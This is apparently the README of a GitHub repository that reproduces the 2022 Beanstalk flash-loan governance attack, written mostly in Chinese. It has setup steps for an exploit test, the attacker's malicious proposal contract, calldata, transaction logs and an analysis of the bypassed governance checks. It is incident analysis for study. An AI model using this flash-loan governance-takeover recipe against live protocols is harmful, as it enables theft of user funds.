




# 攻擊復現
## Steps to Set up this Project


```bash
# install dependencies
npm i
# set up env, paste your API_KEY in it
touch .env
vim .env
# Build up types with typechain
npm run build:types
# Run the test in test/Exploit.ts
npm run test

```
---
# Case Study

# ****前言****

## What is [Beanstalk Farms](https://app.bean.money/)?

Decentralized credit-based stablecoin protocol 去中心化信用算法穩定幣協議，1 beans 利用算法被毛定在 １USD。[Beanstalk Farms](https://app.bean.money/) 由獨立的 Governance 治理機制、去中心化 預言機機制、Credits 信用機制…等組成。而其中的 Governance mechanism 就是這次駭客利用的對象。
 (白皮書：[https://bean.money/beanstalk.pdf](https://bean.money/beanstalk.pdf))


介面做得頗有 GameFi 味道

## Total Lost 攻擊損失

- 依據 [rekt](https://rekt.news/beanstalk-rekt/) 調查，總共有 Beanstalk 總共損失 約 181M，Hacker 獲利約 76M。
- 約 24800 ETH 流入 Tornado Cash， 250K 捐給了 Ukraine War Fund。


[https://twitter.com/peckshield/status/1515713013868814336?ref_src=twsrc%5Etfw%7Ctwcamp%5Etweetembed%7Ctwterm%5E1515713013868814336%7Ctwgr%5E273998123810fb9943321aa1551d5778352b4889%7Ctwcon%5Es1_&ref_url=https%3A%2F%2Fwww.blocktempo.com%2Fattacker-drains-182m-from-beanstalk%2F](https://twitter.com/peckshield/status/1515713013868814336?ref_src=twsrc%5Etfw%7Ctwcamp%5Etweetembed%7Ctwterm%5E1515713013868814336%7Ctwgr%5E273998123810fb9943321aa1551d5778352b4889%7Ctwcon%5Es1_&ref_url=https%3A%2F%2Fwww.blocktempo.com%2Fattacker-drains-182m-from-beanstalk%2F)

## ****Beanstalk’s Governance Mechanism****

Beanstalk 的治理機制總共由三部件組成：

1. **The Silo：**
    - 也稱作 BeanstalkDAO，處理最主要的治理邏輯，包括投票、提案等，如果要參與治理，就必須在 Stalk System 當中存入在白名單里的 Token。
2. **The Stalk System ：**
    - 處理質押 Token 的模塊，User 可存放 白名單 Token 以獲得 Silo 治理權，另有獎勵機制讓質押者可以擁有額外的被動收益。
3. **The Whitelist Assets：**
    - **The Stalk System 接受的 Token 清單**

透過這三個部件任何持有一定白名單 Token 的人都可以發起提案。

## ****Whitelisted Assets Include 可質押的白名單資產:****

1. $BEAN
2. Uniswap BEAN:ETH LP token
3. Curve BEAN3CRV-f LP token
4. Curve BEAN3LUSD-f LP token

**😱 均可以用閃電貸借到…**

# 攻擊階段分析

## 2 Stages

### ☝️ Prepare Stage Steps

上面有提到只要有 白名單上的 Token 就可以發出提案，不過 BEANS 的治理機制規定提案到執行需要有最少一天的等待期，所以攻擊者在 2022/4/16 先籌備攻擊，首先 SWAP 出足夠的 BEANS 並且質押進 BEANS，進到攻擊者的 Address 並篩選對 Beanstalk Protocol 的操作，可以發現有三個操作，第一個是將換來的 Beans 存入 Beanstalk，並且發出了兩個提案，分別是 BIP18, BIP19。

1. Get Beans:
    - Swap 73 ETH to beans
    將 ETH 換成 BEANS:
2. Deposit beans:
    - Deposit the beans to Beanstalk in order to create a proposal
    把換來的 BEANS 存入 Beanstalk 以獲得提案權:
3. Propose BIP18, BIP19




### ✌️ Attack Stage Steps

等到提案生成時間過一天之後就可以執行了，所以攻擊者在 2022/4/17 時，利用自己部署的攻擊合約發起攻擊。首先利用 AAVE FlashLoan、UniswapV2 FlashSwap、SushiSwap FlashSwap 的閃電貸功能借出 Tokens 並轉換成白名單上的 Tokens，並投票給自己的提案、觸發立刻執行提案，將 BEANS 的資產通通轉給自己，最後償還閃電貸、捐錢給烏克蘭戰爭基金、獲利了結。

步驟：

1. Flash Loan / Flash Swap
2. Swap to whitelisted Tokens
3. Vote
4. Emergency Execute
5. Repay
6. Profit-taking



## Addresses & Contractes

因為是 2022/4/16 發生的攻擊，中間 BEANS 的合約已經上版很多次了，如果要回朔當時的情況，我們必須要找到當時的合約版本，去翻 GitHub 大約是 Commit Sha e9f49910e287e7a7afaa6db8f536b7194728b0af 的版本。本次攻擊案例的參與者詳列如下：

### 被害者

[https://github.com/BeanstalkFarms/Beanstalk/commit/e9f49910e287e7a7afaa6db8f536b7194728b0af](https://github.com/BeanstalkFarms/Beanstalk/commit/e9f49910e287e7a7afaa6db8f536b7194728b0af)

- [Beanstalk Protocol Contract](https://etherscan.io/address/0xc1e088fc1323b20bcbee9bd1b9fc9546db5624c5) 被攻擊的合約地者：0xC1E088fC1323b20BCBee9bd1B9fC9546db5624C5

### 攻擊者

- [Exploiter](https://etherscan.io/address/0x1c5dcdd006ea78a7e4783f9e6021c32935a10fb4) 攻擊者地址：0x1c5dCdd006EA78a7E4783f9e6021C32935a10fb4
- Exploiter Contract 攻擊時部署的合約（Flashloan Attack Part - 觸發 BIP18）**:** [0x79224bc0bf70ec34f0ef56ed8251619499a59def](https://etherscan.io/address/0x79224bc0bf70ec34f0ef56ed8251619499a59def)
- [Exploiter Contract](https://etherscan.io/address/0x728ad672409da288ca5b9aa85d1a55b803ba97d7) 攻擊時部署的合約(尚且不太確定作用)：0x728ad672409DA288cA5B9AA85D1A55b803bA97D7
- Contract Deployer(攻擊者透過這個合約部署 BIP18): **[0x4e59b44847b379578588920cA78FbF26c0B4956C](https://etherscan.io/address/0x4e59b44847b379578588920cA78FbF26c0B4956C)**
- **[BIP18](https://etherscan.io/address/0xe5ecf73603d98a0128f05ed30506ac7a663dbb69)(init part) 惡意提案**：0xE5eCF73603D98A0128F05ed30506ac7A663dBb69

# Transactions 攻擊步驟解析

## ☝️ ****Preparing Stage(****2022/4/16****)****

### Block#[14595309](https://etherscan.io/block/14595309): Get Beans

- Swap 73 ETH to beans 將 ETH 換成 BEANS:

Tx [0xfdd9acbc3fae083d572a2b178c8ca74a63915841a8af572a10d0055dbe91d219](https://etherscan.io/tx/0xfdd9acbc3fae083d572a2b178c8ca74a63915841a8af572a10d0055dbe91d219)

- Beanstalk Flashloan Exploiter → UniswapV2


### Block#[14595357](https://etherscan.io/block/14595357) Deposit Beans

Tx [0xf5a698984485d01e09744e8d7b8ca15cd29aa430a0137349c8c9e19e60c0bb9d](https://etherscan.io/tx/0xf5a698984485d01e09744e8d7b8ca15cd29aa430a0137349c8c9e19e60c0bb9d)

- Beanstalk Flashloan Exploiter → Beanstalk: Beanstalk Protocol


### ****Block#14595637-Deploy BIP19 Verified Contract****

**Tx [0xd09b72275962b03dd96205f8077fdc08bec87c0ebd07e431aadc760f31f34b01](https://etherscan.io/tx/0xd09b72275962b03dd96205f8077fdc08bec87c0ebd07e431aadc760f31f34b01)**

- 這個 BIP19 合約

```jsx
// SPDX-License-Identifier: MIT
pragma solidity 0.8.13;

// Ukraine Donation Proposal
// Give 250,000 Bean to Ukraine (and 10,000 Bean to the proposer)

abstract contract IBean {
    function mint(address account, uint256 amount) public virtual returns (bool);
}

contract InitBip18 {
    address private constant bean = 0xDC59ac4FeFa32293A95889Dc396682858d52e5Db; // Bean Address
    address private constant proposerWallet = 0xE5eCF73603D98A0128F05ed30506ac7A663dBb69; // Proposer Wallet
    address private constant ukraineWallet = 0x165CD37b4C644C2921454429E7F9358d18A45e14; // Ukraine Wallet
    uint256 private constant proposerAmount = 10_000 * 1e6; // 10,000 Beans
    uint256 private constant donationAmount = 250_000 * 1e6; // 250,000 Beans

    function init() external {
        IBean(bean).mint(proposerWallet, proposerAmount);
        IBean(bean).mint(ukraineWallet, donationAmount);
    }
}
```

### Block#[14595906](https://etherscan.io/block/14595906) [Propose BIP18](https://etherscan.io/tx/0x68cdec0ac76454c3b0f7af0b8a3895db00adf6daaf3b50a99716858c4fa54c6f)

Tx 0x68cdec0ac76454c3b0f7af0b8a3895db00adf6daaf3b50a99716858c4fa54c6f

在這個時機點還沒有人可以看到 BIP18 的提案是什麼，因為實際上它還沒有被創建，hacker 後來才利用 create2 方法可以預測合約地址的特性創建出 BIP18 合約。

- Beanstalk Flashloan Exploiter → Beanstalk: Beanstalk Protocol


```jsx
// call data
Function: propose(tuple[] _diamondCut,address _init,bytes _calldata,uint8 _pauseOrUnpause)

MethodID: 0x956afd68
[0]:  0000000000000000000000000000000000000000000000000000000000000080
[1]:  000000000000000000000000e5ecf73603d98a0128f05ed30506ac7a663dbb69
[2]:  00000000000000000000000000000000000000000000000000000000000000a0
[3]:  0000000000000000000000000000000000000000000000000000000000000003
[4]:  0000000000000000000000000000000000000000000000000000000000000000
[5]:  0000000000000000000000000000000000000000000000000000000000000004
[6]:  e1c7392a00000000000000000000000000000000000000000000000000000000
```

- 可以看到他的地址就是即將要拿來攻擊的 BIP

### Block#[14595964](https://etherscan.io/block/14595964): [Propose Fake BIP18(BIP19 煙霧彈提案)](https://etherscan.io/tx/0x9575e478d7c542558ecca52b27072fa1f1ec70679106bdbd62f3bb4d6c87a80d)

- [https://etherscan.io/address/0x259a2795624b8a17bc7eb312a94504ad0f615d1e#code](https://etherscan.io/address/0x259a2795624b8a17bc7eb312a94504ad0f615d1e#code)

```jsx
// call data
Function: propose(tuple[] _diamondCut,address _init,bytes _calldata,uint8 _pauseOrUnpause) ***

MethodID: 0x956afd68
[0]:  0000000000000000000000000000000000000000000000000000000000000080
[1]:  000000000000000000000000259a2795624b8a17bc7eb312a94504ad0f615d1e
[2]:  00000000000000000000000000000000000000000000000000000000000000a0
[3]:  0000000000000000000000000000000000000000000000000000000000000003
[4]:  0000000000000000000000000000000000000000000000000000000000000000
[5]:  0000000000000000000000000000000000000000000000000000000000000004
[6]:  e1c7392a00000000000000000000000000000000000000000000000000000000
```


## ✌️ Attack Stage(2022/4/17)

### Block#[14602790](https://etherscan.io/block/14602790): 利用 create2 創建提案 BIP18 的合約

Tx [0x677660ce489935b94bf5ac32c494669a71ee76913ffabe623e82a7de8226b460](https://etherscan.io/tx/0x677660ce489935b94bf5ac32c494669a71ee76913ffabe623e82a7de8226b460)


- 可以看到 create2 創建了剛剛指定的 Proposal 地址


### Block#[14602790](https://etherscan.io/block/14602790): Launch the hack - [Execute BIP18](https://etherscan.io/tx/0xcd314668aaa9bbfebaf1a0bd2b6553d01dd58899c508d4729fa7311dc5d33ad7)

TX 0xcd314668aaa9bbfebaf1a0bd2b6553d01dd58899c508d4729fa7311dc5d33ad7

- [Beanstalk Flashloan Exploiter](https://etherscan.io/address/0x1c5dcdd006ea78a7e4783f9e6021c32935a10fb4) → [Beanstalk Flashloan Exploiter Contract](https://etherscan.io/address/0x728ad672409da288ca5b9aa85d1a55b803ba97d7)
- 合約創建的同時發動攻擊


### FlashLoan / FlashSwap 借錢

1.AAVE Flashloan: 350,000,000 DAI, 500,000,000 USDC, 150,000,000 USDC

```json
[transfer] amount=350000000.0 [DAI], from=[Aave: aDAI Token V2], to=[Beanstalk Flashloan Exploiter Contract], operator=[Aave: aDAI Token V2]
[transfer] amount=500000000.0 [USDC], from=[Aave: aUSDC Token V2], to=[Beanstalk Flashloan Exploiter Contract], operator=[Centre: USD Coin]
[transfer] amount=150000000.0 [USDT], from=[Aave: aUSDT Token V2], to=[Beanstalk Flashloan Exploiter Contract], operator=[Aave: aUSDT Token V2]
```

2.UniswapV2 FlashSwap: 32, 425,202 BEAN

3.SushiSwap FlashSwap: 11,643,065 LUSD

```json
[swap] exchange=uniswap-v2, tokenIn=32197543.256457 [BEAN], amountOut=0.0 [WETH], recipient=[Beanstalk Flashloan Exploiter Contract], actor=[Beanstalk Flashloan Exploiter Contract]
[swap] exchange=sushiswap, tokenIn=11678100.003509005920123297 [LUSD], amountOut=0 [OlympusDAO: OHM Token], recipient=[Beanstalk Flashloan Exploiter Contract], actor=[Beanstalk Flashloan Exploiter Contract]
```

### Swap to whiteListed Token 交換代幣

1.**Swap 3Crv:** Vyper_contract_bebc(curve3pool).add_liquidity 350,000,000 DAI, 500,000,000 USDC, 150,000,000 USDT to get 979,691,328 3Crv

```json
[transfer] amount=350000000.0 [DAI], from=[Beanstalk Flashloan Exploiter Contract], to=[Curve.fi: DAI/USDC/USDT Pool], operator=[Curve.fi: DAI/USDC/USDT Pool]
[transfer] amount=500000000.0 [USDC], from=[Beanstalk Flashloan Exploiter Contract], to=[Curve.fi: DAI/USDC/USDT Pool], operator=[Centre: USD Coin]
[transfer] amount=150000000.0 [USDT], from=[Beanstalk Flashloan Exploiter Contract], to=[Curve.fi: DAI/USDC/USDT Pool], operator=[Curve.fi: DAI/USDC/USDT Pool]
[mint] amount=979691328.662155074401448409 [3Crv], to=[Beanstalk Flashloan Exploiter Contract], operator=[Curve.fi: DAI/USDC/USDT Pool]
```

2.**Swap 3Crv to LUSD:** LUSD3CRV-f.exchange to convert 15,000,000 3Crv to 15, 251,318 LUSD

```json
[transfer] amount=15000000.0 [3Crv], from=[Beanstalk Flashloan Exploiter Contract], to=[Curve.fi Factory USD Metapool: LUSD3CRV-f], operator=[Curve.fi Factory USD Metapool: LUSD3CRV-f]
[transfer] amount=15251318.11920324226629485 [LUSD], from=[Curve.fi Factory USD Metapool: LUSD3CRV-f], to=[Beanstalk Flashloan Exploiter Contract], operator=[Curve.fi Factory USD Metapool: LUSD3CRV-f]
```

3.**Swap 3Crv to BEAN3CRV-f:** BEAN3CRV-f.add_liquidity to convert 964,691,328 3Crv to 795,425,740 BEAN3CRV-f

```json
[transfer] amount=964691328.662155074401448409 [3Crv], from=[Beanstalk Flashloan Exploiter Contract], to=[Beanstalk: BEAN3CRV-f Token], operator=[Beanstalk: BEAN3CRV-f Token]
[mint] amount=795425740813818200295323741 [BEAN3CRV-f], to=[Beanstalk Flashloan Exploiter Contract], operator=[Beanstalk: BEAN3CRV-f Token]
```

4.****Swap BEAN & LUSD to BEANLUSD-f:**** BEANLUSD-f.add_liquidity to convert 32,100,950 BEAN and 26,894,383 LUSD and get 58,924,887 BEANLUSD-f

```json
[transfer] amount=32100950.626687 [BEAN], from=[Beanstalk Flashloan Exploiter Contract], to=[Beanstalk: BEANLUSD-f Token], operator=[Beanstalk: BEANLUSD-f Token]
[transfer] amount=26894383.822701721168657777 [LUSD], from=[Beanstalk Flashloan Exploiter Contract], to=[Beanstalk: BEANLUSD-f Token], operator=[Beanstalk: BEANLUSD-f Token]
[mint] amount=58924887.872471876761750555 [BEANLUSD-f], to=[Beanstalk Flashloan Exploiter Contract], operator=[Beanstalk: BEANLUSD-f Token]
```

交換代幣總流程：



### Deposit 質押以獲得投票權

1. Deposit 795,425,740 BEAN3CRV-f and 58,924,887 BEANLUSD-f into Diamond

```json
[transfer] amount=795425740813818200295323741 [BEAN3CRV-f], from=[Beanstalk Flashloan Exploiter Contract], to=[Beanstalk: Beanstalk Protocol], operator=[Beanstalk: BEAN3CRV-f Token]
[transfer] amount=58924887.872471876761750555 [BEANLUSD-f], from=[Beanstalk Flashloan Exploiter Contract], to=[Beanstalk: Beanstalk Protocol], operator=[Beanstalk: BEANLUSD-f Token]
```

### Vote & emergencyCommit BIP18 投票與執行

1. Diamond.vote (bip=18)
2. Diamond.emergencyCommit(bip=18)
3. BIP18 execute: hacker proposed _init contract is executed to get 36,084,584 BEAN and 0.54 UNI-V2_WETH_BEAN, 874,663,982 BEAN3CRV-f, 60,562,844 BEANLUSD-f to hacker contract



### ****Repay - FlashSwap****

1. BEAN3CRV-f.remove_liquidity_one_coin 874,663,982 BEAN3CRV-f to get 1,007,734,729 3Crv
2. BEANLUSD-f.remove_liquidity_one_coin 60,562,844 BEANLUSD-f to get 28,149,504 LUSD
3. Flashloan back LUSD 11,795,706 and BEAN 32,197,543

```json
[burn] amount=874663982237419391168556425 [BEAN3CRV-f], from=[Beanstalk Flashloan Exploiter Contract], operator=[Beanstalk: BEAN3CRV-f Token]
[transfer] amount=1007734729.918865110952432204 [3Crv], from=[Beanstalk: BEAN3CRV-f Token], to=[Beanstalk Flashloan Exploiter Contract], operator=[Beanstalk: BEAN3CRV-f Token]
[burn] amount=60562844.064129085666723423 [BEANLUSD-f], from=[Beanstalk Flashloan Exploiter Contract], operator=[Beanstalk: BEANLUSD-f Token]
[transfer] amount=28149504.988150028822680438 [LUSD], from=[Beanstalk: BEANLUSD-f Token], to=[Beanstalk Flashloan Exploiter Contract], operator=[Beanstalk: BEANLUSD-f Token]
[transfer] amount=11678100.003509005920123297 [LUSD], from=[Beanstalk Flashloan Exploiter Contract], to=[SushiSwap: LUSD-OHM], operator=[Beanstalk Flashloan Exploiter Contract]
[transfer] amount=32197543.256457 [BEAN], from=[Beanstalk Flashloan Exploiter Contract], to=[Uniswap V2: BEAN 3], operator=[Beanstalk Flashloan Exploiter Contract]
```

### ****Repay - FlashLoan****

1. LUSD3CRV-f.exchange to swap 16,471,404 LUSD to 16,184,690 3Crv
2. Burn 16,184,690 3Cry to get 522,487,380 USDC, 365,758,059 DAI, and 156,732,232 USDT

```json
[transfer] amount=16471404.984641022902557141 [LUSD], from=[Beanstalk Flashloan Exploiter Contract], to=[Curve.fi Factory USD Metapool: LUSD3CRV-f], operator=[Curve.fi Factory USD Metapool: LUSD3CRV-f]
[transfer] amount=16184690.4423706616519972 [3Crv], from=[Curve.fi Factory USD Metapool: LUSD3CRV-f], to=[Beanstalk Flashloan Exploiter Contract], operator=[Curve.fi Factory USD Metapool: LUSD3CRV-f]
[burn] amount=511959710.180617886302214702 [3Crv], from=[Beanstalk Flashloan Exploiter Contract], operator=[Curve.fi: DAI/USDC/USDT Pool]
[transfer] amount=522487380.233548 [USDC], from=[Curve.fi: DAI/USDC/USDT Pool], to=[Beanstalk Flashloan Exploiter Contract], operator=[Centre: USD Coin]
[burn] amount=358371797.126432520411550291 [3Crv], from=[Beanstalk Flashloan Exploiter Contract], operator=[Curve.fi: DAI/USDC/USDT Pool]
[transfer] amount=365758059.846650868575584745 [DAI], from=[Curve.fi: DAI/USDC/USDT Pool], to=[Beanstalk Flashloan Exploiter Contract], operator=[Curve.fi: DAI/USDC/USDT Pool]
[burn] amount=153587913.054185365890664411 [3Crv], from=[Beanstalk Flashloan Exploiter Contract], operator=[Curve.fi: DAI/USDC/USDT Pool]
```

### ****Repay - FlashLoan****

1. Flashloan back 150,135,000 USDT, 500,450,000 USDC, 350,315,000 DAI

```json
[transfer] amount=156732232.49236 [USDT], from=[Curve.fi: DAI/USDC/USDT Pool], to=[Beanstalk Flashloan Exploiter Contract], operator=[Curve.fi: DAI/USDC/USDT Pool]
[mint] amount=192.544598265969491594 [aDAI], to=[Aave], operator=[Aave: aDAI Token V2]
[transfer] amount=350315000.0 [DAI], from=[Beanstalk Flashloan Exploiter Contract], to=[Aave: aDAI Token V2], operator=[Aave: Lending Pool V2]
[mint] amount=30.364909 [aUSDC], to=[Aave], operator=[Aave: aUSDC Token V2]
[transfer] amount=500450000.0 [USDC], from=[Beanstalk Flashloan Exploiter Contract], to=[Aave: aUSDC Token V2], operator=[Centre: USD Coin]
[mint] amount=89.259866 [aUSDT], to=[Aave], operator=[Aave: aUSDT Token V2]
[transfer] amount=150135000.0 [USDT], from=[Beanstalk Flashloan Exploiter Contract], to=[Aave: aUSDT Token V2], operator=[Aave: Lending Pool V2]
[transfer] amount=0.540716100968756904 [UNI-V2], from=[Beanstalk Flashloan Exploiter Contract], to=[Uniswap V2: BEAN 3], operator=[Beanstalk Flashloan Exploiter Contract]
```

### ****Take Profits****

1.Burn UNI-V2_WETH_BEAN 0.54 to get 10,883 WETH and 32,511,085 BEAN

```json
[burn] amount=0.540716100968756904 [UNI-V2], from=[Uniswap V2: BEAN 3], operator=[Beanstalk Flashloan Exploiter Contract]
[transfer] amount=10883.105341079068109889 [WETH], from=[Uniswap V2: BEAN 3], to=[Beanstalk Flashloan Exploiter Contract], operator=[Uniswap V2: BEAN 3]
[transfer] amount=32511085.804104 [BEAN], from=[Uniswap V2: BEAN 3], to=[Beanstalk Flashloan Exploiter Contract], operator=[Uniswap V2: BEAN 3]
```

2.Donate 250,000 USDC to Ukraine Crypto Donation

👍 搶劫不忘做公益

```json
[transfer] amount=250000.0 [USDC], from=[Beanstalk Flashloan Exploiter Contract], to=[Ukraine Crypto Donation], operator=[Centre: USD Coin]
```

3.swap 15,443,059 DAI to 15,441,256 USDC

4.swap 37,228,637 USDC to 11,822 WETH

```json
[transfer] amount=15441256.987216 [USDC], from=[Uniswap V3: DAI-USDC 4], to=[Beanstalk Flashloan Exploiter Contract], operator=[Centre: USD Coin]
[transfer] amount=15443059.846650868575584745 [DAI], from=[Beanstalk Flashloan Exploiter Contract], to=[Uniswap V3: DAI-USDC 4], operator=[Beanstalk Flashloan Exploiter Contract]
[transfer] amount=11822.158690514861161013 [WETH], from=[Uniswap V3: USDC 3], to=[Beanstalk Flashloan Exploiter Contract], operator=[Uniswap V3: USDC 3]
[transfer] amount=37228637.220764 [USDC], from=[Beanstalk Flashloan Exploiter Contract], to=[Uniswap V3: USDC 3], operator=[Centre: USD Coin]
```

5.Swap 6,597,232 USDT to 2,124 WETH

6.Profit 24,830 WETH is sent to hacker

```json
[transfer] amount=2124.852878868396961413 [WETH], from=[Uniswap V3: USDT], to=[Beanstalk Flashloan Exploiter Contract], operator=[Uniswap V3: USDT]
[transfer] amount=6597232.49236 [USDT], from=[Beanstalk Flashloan Exploiter Contract], to=[Uniswap V3: USDT], operator=[Beanstalk Flashloan Exploiter Contract]
[unwrap] amount=24830.116910462326232315 [ETH], operator=[Beanstalk Flashloan Exploiter Contract]
[transfer] amount=24830.116910462326232315 [ETH], from=[Beanstalk Flashloan Exploiter Contract], to=[Beanstalk Flashloan Exploiter], operator=[Beanstalk Flashloan Exploiter Contract]
```

# 弱點總結

- Governance Mechanism 中用於投票的白名單 Token 可以通過閃電貸獲得
- BeansTalk Protocol 缺乏反閃電貸機制，讓 Hacker 可以通過借貸發起惡意提案
- 攻擊者如何繞過驗證 emergencyCommit() 兩個主要的檢查點：
  - 檢查點：BIP至少被創建超過24小時，BIP18於4/16創建，4/17執行故可通過

    ```solidity
    // C.sol
    uint32 private constant GOVERNANCE_EMERGENCY_PERIOD = 86400; // 1 day
    // GovernanceFacet.sol
    require(block.timestamp >= timestamp(bip).add(C.getGovernanceEmergencyPeriod()),"Governance: Too early.");
    ```

  - 檢查點：BIP的投票比例超過 2/3，通過閃電貸，提案獲得了 78%以上的跳數，超過了67%

    ```solidity
    // C.sol
    uint256 private constant GOVERNANCE_EMERGENCY_THRESHOLD_NUMERATOR = 2; // 2/3
    uint256 private constant GOVERNANCE_EMERGENCY_THRESHOLD_DEMONINATOR = 3; // 2/3
    function getGovernanceEmergencyThreshold() internal pure returns (Decimal.D256 memory) {
      return Decimal.ratio(GOVERNANCE_EMERGENCY_THRESHOLD_NUMERATOR,GOVERNANCE_EMERGENCY_THRESHOLD_DEMONINATOR);
    }
    // GovernanceFacet.sol
    require(bipVotePercent(bip).greaterThanOrEqualTo(C.getGovernanceEmergencyThreshold()),"Governance: Must have super majority.");
    ```


# References

[https://github.com/BeanstalkFarms/Beanstalk/commit/e9f49910e287e7a7afaa6db8f536b7194728b0af](https://github.com/BeanstalkFarms/Beanstalk/commit/e9f49910e287e7a7afaa6db8f536b7194728b0af)

[Rekt - Beanstalk - REKT](https://rekt.news/beanstalk-rekt/)

[Beanstalk 遭閃電貸攻擊損失 1.8 億美元，穩定幣 $BEAN 脫鉤瞬崩跌 90%！](https://www.blocktempo.com/attacker-drains-182m-from-beanstalk/)

[JavaScript is not available.](https://twitter.com/BeanstalkFarms)

[Beanstalk Farm 攻擊事件分析](https://0xzx.com/zh-tw/2022041811312238858.html)

[https://github.com/JIAMING-LI/BeanstalkProtocolExploit](https://github.com/JIAMING-LI/BeanstalkProtocolExploit)
